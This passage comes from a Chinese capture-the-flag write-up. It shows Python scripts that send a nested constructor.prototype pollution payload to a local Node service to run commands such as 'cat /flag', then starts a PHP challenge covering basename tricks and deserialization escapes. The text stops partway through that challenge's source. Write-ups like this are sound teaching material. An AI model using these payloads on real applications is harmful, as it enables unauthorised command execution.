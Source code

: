     只要目标和源中有一个类型在其中，就会直接将key之间执行赋值相等，而如果两者都不在，并且这个key不是`__proto__`就会再执行merge操作

梳理完以上条件后，尝试通过`constructor.prototype`来绕过，成功污染

```python
import requests
url="http://127.0.0.1:3000/user"
user='''{"constructor":{"prototype":{"constructor":{"prototype":{"1":"whoami"}}}},"username":{"OK":"a"},"command":["-c"]}'''
# {"constructor":{"prototype":{"constructor":{"prototype":{"command":["-c","lsssss"]}}}}}
# user='''{"username":"aaa"}'''
print({"user":user})
print(requests.post(url=url, json={"user": user}).text)
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-d1dd21377dabc43423a66ac97467bccc5e2e4872.png)  
两层污染到Array，此时我们传入command只传入一项，在merge时遍历source中command属性到1时就会将我们污染的内容传入target的command  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-e3f6de9b519a4eae744b5840eac4bfd2f14e1ef6.png)  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-f40161ada4a7a62a4f66a8a40d4ded7438295d8c.png)  
在1位置任意传入命令即可执行

```python
import requests
url="http://127.0.0.1:3000/user"
user='''{"constructor":{"prototype":{"constructor":{"prototype":{"1":"cat /flag"}}}},"username":{"OK":"a"},"command":["-c"]}'''
# {"constructor":{"prototype":{"constructor":{"prototype":{"command":["-c","lsssss"]}}}}}
# user='''{"username":"aaa"}'''
print({"user":user})
print(requests.post(url=url, json={"user": user}).text)
```

ezus
----

这个题目应该说有三层

知识点:

1. `basename`如果检测到当前的文件名全部字符都在`非ASCII码范围`就会丢弃当前文件名, 接续将上一层目录作为文件名读出
    
    还有一点就是`/index.php/xxxxxxx`(包括`index.php/x/x/x/x/x/xxx`)都会执行index.php脚本
    
    `$_SERVER["PHP_SELF"]`即为当前URI的执行文件定位路径
    
    ![image-20221106212518357](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-9811671ec4b3e26b8e53b2f9f64e90bba100a762.png)
2. PHP反序列化字符逃逸+PHP反序列化`fastdestruct`绕过\_\_wakeup
3. 对协议解析格式的理解和利用

开局拿到`index.php`源码

![image-20221105204738804](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-59a98d5097b275d6d349a99a6ec1c814e6a32602.png)

```php
<?php
include 'tm.php'; // Next step in tm.php
if (preg_match('/tm\.php\/*$/i', $_SERVER['PHP_SELF']))
{
    exit("no way!");
}
if (isset($_GET['source']))
{
    $path = basename($_SERVER['PHP_SELF']);
    if (!preg_match('/tm.php$/', $path) && !preg_match('/index.php$/', $path))
    {
        exit("nonono!");
    }
    highlight_file($path);
```